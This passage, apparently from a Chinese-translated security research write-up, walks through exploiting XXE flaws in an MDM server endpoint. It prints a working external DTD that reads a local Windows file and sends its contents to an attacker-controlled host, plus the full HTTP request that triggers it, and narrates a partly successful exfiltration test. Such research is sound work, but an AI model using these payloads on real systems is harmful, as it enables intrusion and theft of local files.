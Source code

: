 我们收到了 HTTP 200 和“OK”响应，同时立即向攻击者控制的服务器发出请求，表明成功：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrW1ozz1IYdPyEXOLZwXFsD7Usor1M2FoTkbvpqF2niauGCAic6EODvatZA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrWHtuibVrF4IMgBnHialJAh4DYUSdbkFfjLibvqY9FpXvlkCo4rIQlZzonA/640?wx_fmt=png&from=appmsg "")  
  
表演性XXE  
  
性能漏洞（如上述 XXE）感觉像是您可能依赖咨询公司解决的当前缺乏影响的漏洞类型 - 但是，所述咨询公司必须包装在尽可能多的品牌重塑中，只要您认为可以在短时间内实现。  
  
无论如何，我们离题了……  
  
刚刚装备了三个 XXE - 正如上面提到的，我们仍然缺少一些重要的东西......影响。  
  
我们已经满足了 PoC || GTFO 要求，但是我们能用它们做什么呢？！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrWDUB8wOYJt0EehxlibTfjbfEJol1DRWwCwg57xh3PmlgFfKA45Rp4SaQ/640?wx_fmt=png&from=appmsg "")  
  
在典型的 XXE 方式中，我们有几种利用方式：  
- 检索包含敏感信息的本地文件  
  
- 在内部网络上戳其他系统  
  
- 与本地主机绑定的网络服务交互  
  
- 拒绝服务（无聊！）  
  
我们决定轻松一点，直接尝试泄露文件内容，在本例中，我们的目标是win.ini文件。  
  
为了做好准备，我们托管了一个exfil.dtd包含以下内容的网站：  
  
```
<!ENTITY % d SYSTEM "file:///C:\\windows\\win.ini"><!ENTITY % c "<!ENTITYrrrSYSTEM 'http://192.168.8.107/?e=%d;'>">
```  
  
  
然后，利用 1000 个天才的复杂性，我们构建了以下复杂的 HTTP 请求，以使用我们的外部 DTD 触发 XXE：  
  
```
POST/mdm/serverurl HTTP/1.1Host: 192.168.8.162:8080Content-Length: 119<?xml version="1.0"?><!DOCTYPE cdl [<!ENTITY % asd SYSTEM "http://192.168.8.107/exfil.dtd">%asd;%c;]><cdl>&rrr;</cdl>
```  
  
  
正如预期的那样，我们立即收到一个请求我们文件的回调exfil.dtd，但没有看到任何迹象表明第二阶段正在执行并回调给我们内容win.ini......很奇怪。  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrWQib85vVP4Go1hg9VzNfHvEmNia5Ynep3siaWibibKqzAMZQTK0OuzlicpFWg/640?wx_fmt=png&from=appmsg "")  
  
我们不气馁，并假设我们不太擅长使用计算机，我们决定尝试通过手动创建一个名为secret.txt以下内容的文件来确定可能存在的限制  
：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrWvlxtQZfb3dpaVmk8I0ZDPNkSDelTkrp542XfB2cicLCVK1Qq5ibhbKkw/640?wx_fmt=png&from=appmsg "")  
  
更新我们的外部 DTD 以指向这个新文件，然后我们尝试使用与之前相同的有效载荷来窃取该文件：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrWJia484XfEo24I7TcNUjmk0jMUibQHIQY0SyQE9jxlyG5f7ggnyFHjo7A/640?wx_fmt=png&from=appmsg "")  
  
成功了！我们立即收到了一个请求exfil.dtd，以及一个包含文件内容的第二个请求！  
  
我们立即有了预感，并决定在文件中添加几行并再试一次：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrWKSn7icC3h51YnHsJ0UVRH8XQeiaPlyiaBg2QMAvtd1nXUiaiaGuFtZ6PxlQ/640?wx_fmt=png&from=appmsg "")  
  